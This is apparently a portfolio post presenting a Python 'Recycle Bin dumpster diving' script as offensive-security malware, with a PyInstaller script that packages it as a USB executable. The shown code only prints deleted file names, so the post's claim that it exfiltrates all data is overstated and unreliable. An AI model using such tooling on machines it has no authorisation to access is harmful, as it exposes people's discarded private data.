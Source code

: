 ```yaml
---
layout: default
---
```


# Digital Dumpster Diving Executable Malware | Python, Penetration testing

This `Python` script for offensive security conducts `digital dumpster diving` by exfiltrating all data from a `Windows Recycle Bin`, even if Python isn't installed on the compromised device.

The idea behind this type of malware is that important information like `PII` or `intellectual property` may not always be properly deleted, as users often neglect to empty their Recycle Bin. This creates an opportunity for attackers, especially if a careless employee has unwittingly left sensitive information behind. While `initial access` is required, possibly through `social engineering` or plugging a `USB` into the device, and the code could be further optimized, that isn't the primary objective here. Instead, the script highlights a fundamental vulnerability and tests whether employees routinely clean out their Recycle Bin.

This script could serve as a helpful tool in `social engineering awareness campaigns`, encouraging better information disposal practices among a company's employees. After all, we know the saying:

"One man's trash is another man's treasure."

### Dumpster Dive code:

```python
import winshell
import os

def dumpster_diving():
    dumpster = winshell.recycle_bin()
    for item in dumpster:
        og_path=item.original_filename()
        trash_item=os.path.basename(og_path)
        print(trash_item)

if __name__ == "__main__":
    dumpster_diving()
```

### Code to make the Executable

This is the code used to create the executable using `PytInstaller`. The extra lines of code are meant to create the executable in a usb drive, but they can be commented without issue:

```python
import PyInstaller.__main__ 
import os
import shutil

filename = "dumpsterdive.py"
exename = "dumpsterdive"
pwd = os.getcwd()
usbdir = os.path.join(pwd,"USB")

dist_path = os.path.join(pwd, "dist")
build_path = os.path.join(pwd, "build")
spec_path = os.path.join(pwd, exename + ".spec")

if os.path.isfile(exename):
    os.remove(exename)

# Create executable from Python script
PyInstaller.__main__.run([
    "dumpsterdive.py",
    "--onefile",
    "--clean",
    "--log-level=ERROR",
    "--name="+exename,
])

# Clean up after Pyinstaller
shutil.move(os.path.join(dist_path,exename+'.exe'),pwd)
shutil.rmtree("dist")
shutil.rmtree("build")
shutil.rmtree("__pycache__")
if os.path.isfile(spec_path):
    os.remove(spec_path)
```

[back](./)
